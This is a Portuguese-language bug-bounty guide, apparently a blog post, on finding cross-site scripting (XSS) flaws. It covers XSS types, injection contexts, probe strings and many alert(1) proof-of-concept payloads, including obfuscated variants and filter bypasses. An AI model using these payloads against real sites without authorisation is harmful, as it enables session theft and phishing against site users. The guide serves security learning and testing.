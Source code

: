```yaml
---
title: "Como identificar uma vulnerabilidade de XSS (Cross-Site Scripting)"
date: 2025-06-10 18:00:00 -0300
categories: segurança-web
tags: ["xss", "bug bounty", "seguranca-web", "hacking"]
---
```


# Como identificar uma vulnerabilidade de XSS (Cross-Site Scripting)

**XSS (Cross-Site Scripting)** é uma das vulnerabilidades mais comuns e mais exploradas da web. E também uma das primeiras que a galera costuma encontrar em Bug Bounty.  
Se liga nesse guia completo pra identificar XSS na prática — mesmo que você esteja começando agora.

---

## 🧠 O que é um XSS?

É quando um atacante consegue **injetar código JavaScript malicioso** dentro de uma página, que será executado no navegador da vítima.  
Com isso, dá pra:

- Roubar cookies e tokens
- Redirecionar usuários pra phishing
- Capturar dados de formulários
- Explorar outras falhas do app pelo navegador

---

## 🧪 Tipos de XSS

1. **Refletido**  
   O payload é refletido direto na resposta da requisição (ex: na URL).
2. **Armazenado**  
   O payload fica salvo no banco de dados e aparece para outros usuários.
3. **DOM-Based**  
   A injeção acontece no lado do cliente, quando o JavaScript da página manipula valores da URL, `document.location`, `innerHTML`, etc.

---

## 🔍 Como identificar um XSS

### Passo 1 – Onde seu input aparece?

Testa campos como:

- Formulários de busca
- Comentários
- Parâmetros da URL (ex: `?q=teste`)
- Inputs escondidos ou debug tools no front
- Qualquer coisa que reflita dados no HTML

Use valores como:

```
xss123
<script>1</script>
"><img src=x onerror=alert(1)>
```

Procure onde isso aparece na resposta: no corpo da página, em atributos, no JavaScript, etc.

---

### Passo 2 – Qual o contexto?

O contexto onde o valor aparece muda **como** você deve injetar. Exemplos:

| Contexto | Exemplo na resposta | Payload básico |
|---------|---------------------|----------------|
| HTML    | `<div>xss123</div>` | `<script>alert(1)</script>` |
| Atributo| `<input value="xss123">` | `" onfocus=alert(1) autofocus="` |
| JS      | `var data = "xss123";` | `";alert(1);//` |
| URL     | `<a href="?msg=xss123">` | `javascript:alert(1)` |

---

### Passo 3 – Teste com payloads

Comece com os mais simples:

```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<iframe src="javascript:alert(1)"></iframe>
```

Se nada funcionar, tenta versões obfuscadas:

```html
<scr<script>ipt>alert(1)</scr</script>ipt>
<scr ipt>alert(1)</scr ipt>
<svg><script>alert(1)</script></svg>
```

---

## 🛠 Ferramentas úteis

- **Burp Suite** – Intercepta e altera requisições
- **XSStrike** – Fuzzer inteligente para XSS
- **Google Chrome DevTools** – Pra ver o DOM renderizado
- **xsshunter.com** – Pra detectar execuções automáticas (armazenado ou DOM-based)

---

## 🎯 Exemplos reais de XSS

### Refletido:
```
https://site.com/search?q=<script>alert(1)</script>
```

### Armazenado:
Campo de comentário:
```html
Ótimo post! <script>alert('XSS')</script>
```
Se o admin abrir a página de comentários e o JS rodar → bingo.

### DOM-Based:
URL:
```
https://site.com/#<img src=x onerror=alert(1)>
```
Se o JS do site fizer algo como:
```js
document.body.innerHTML = location.hash;
```
➡ Isso é perigoso.

---

## 🧩 Bônus: bypasses comuns

Às vezes o site bloqueia `<script>`. Tenta alternativas:

```html
<svg onload=alert(1)>
<img src=x onerror=alert(1)>
<details open ontoggle=alert(1)>
<input onfocus=alert(1) autofocus>
<iframe srcdoc="<script>alert(1)</script>">
```

E em JS:
```js
'";alert(1);// 
</script><script>alert(1)</script>
```

---

## 🛡 Como saber se é de verdade?

Um XSS só é válido quando **o código malicioso é executado de fato**, e:

- Afeta outro usuário (armazenado)
- Pode ser explorado via link (refletido)
- Roda no navegador sem interação do usuário (auto-execução)

Não basta "ver o payload na tela" — tem que rodar.

---

## 📌 Checklist rápido pra identificar um XSS

- [ ] O input é refletido na resposta?
- [ ] Qual o contexto HTML? (tag, atributo, JS, etc.)
- [ ] O payload executa código?
- [ ] O filtro é fraco? Dá pra bypassar?
- [ ] Outro usuário seria afetado?

---

## 🧠 Conclusão

XSS parece simples, mas é uma das falhas mais versáteis e perigosas.  
Com prática, você aprende a **ler o DOM com olhos de atacante** e a escapar de filtros comuns.

Testa em labs, vê como os apps tratam entrada, e abusa do DevTools pra entender como tudo é construído.

Se você achou esse guia útil, compartilha.  
Se quiser um desafio XSS real, posso te mandar um lab ou quiz!

---

> “XSS é a arte de falar JavaScript com sotaque de atacante.”  
> — lxr0x64
